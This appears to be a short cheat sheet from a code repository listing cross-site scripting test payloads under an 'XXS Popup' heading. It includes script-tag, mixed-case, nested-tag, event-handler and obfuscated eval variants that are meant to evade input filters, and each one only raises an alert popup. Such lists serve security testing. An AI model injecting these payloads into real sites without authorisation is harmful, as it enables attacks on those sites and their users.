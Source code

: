 # Payloads
## XXS Popup:
<p>
- <script>alert("XSS");</script>
- <script>alert(‘XSS’);</script>
- <script>alert(‘XSS’)</script>
- <<script>alert("XSS");//<</script>
- <sCripT>alert("XSS")</scRipt>
- <scr<script>ipt>alert('XSS')</script>
- <sCripT>alert('XSS')</scRipt>
- <img src=/ onerror="alert('XSS')"/>
- <img src=x onMouseOver=alert('XSS')>
- <svg/onload=eval("ale"+"rt")(`XSS${alert`XSS/`}`)>
- <img src='nevermind' onerror="alert('XSS');" />
- << script>alert("XSS");//<</ script>
- <svg/onload=alert('XSS')>
- div.innerHTML = '<script deferred>alert("XSS");</script>';
- <img src="aaa" onerror=alert('xxs')>
- <body onload="alert('XSS')">
</p>
